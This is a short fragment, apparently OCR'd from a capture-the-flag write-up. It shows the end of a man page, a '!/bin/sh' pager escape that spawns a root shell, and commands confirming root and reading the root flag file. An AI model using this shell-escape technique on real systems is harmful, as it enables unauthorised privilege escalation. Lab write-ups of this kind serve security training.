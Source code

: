 ```bash
       location (you can say --local but that is the default).

       This command will fail with non-zero status upon error. Some exit codes are:

!/bin/sh
# 
```
A shell has been spawned. We should check that we are indeed root and capture the root flag.
```bash
# whoami
root
# cat /root/root.txt
HERE IS THE ROOT FLAG

```
